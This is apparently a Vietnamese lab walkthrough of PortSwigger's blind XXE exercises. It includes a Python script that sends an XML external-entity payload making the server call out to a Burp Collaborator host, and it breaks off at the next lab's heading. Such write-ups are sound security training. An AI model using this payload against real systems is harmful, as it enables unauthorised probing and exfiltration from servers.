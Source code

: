  [image](https://hackmd.io/_uploads/rknLErxhT.png)

Dự đoán trang web thực hiện phân tích cú pháp dữ liệu XML, chúng ta có thể dễ dàng kiểm tra điều này

 [image](https://hackmd.io/_uploads/Hk50VBg26.png)

### Khai thác

- Thực hiện một kịch bản DNS lookup tới client Burp Collaborator:
- Tuy trang web trả về thông báo "Invalid product ID" nhưng trước đó đã thực hiện quá trình phân tích cú pháp XML, dẫn đến client Burp Collaborator nhận được request DNS lookup gửi từ server victim:
  mình đã viết script khai thác

```python
# /usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a67005003e2427580bc21a300c10028.web-security-academy.net'

session=requests.Session()

data = '<?xml version="1.0" encoding="UTF-8"?>< DOCTYPE foo [ < ENTITY xxe SYSTEM "http://yikfn9un5au63ryrq5f0jfe1lsrjf93y.oastify.com"> ]><stockCheck><productId>&xxe;#1</productId><storeId>1</storeId></stockCheck>'


response= session.post(
    url + '/product/stock',
    data=data,
    verify=False,
)

print(response.text)
```

 [image](https://hackmd.io/_uploads/B1yTQrg3a.png)

mục đích của chúng ta đã hoàn thành và mình đã solve được lab này

 [image](https://hackmd.io/_uploads/HJgdErxnp.png)

## 4. Lab: Blind XXE with out-of-band interaction via XML parameter entities

link: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities

### Đề bài

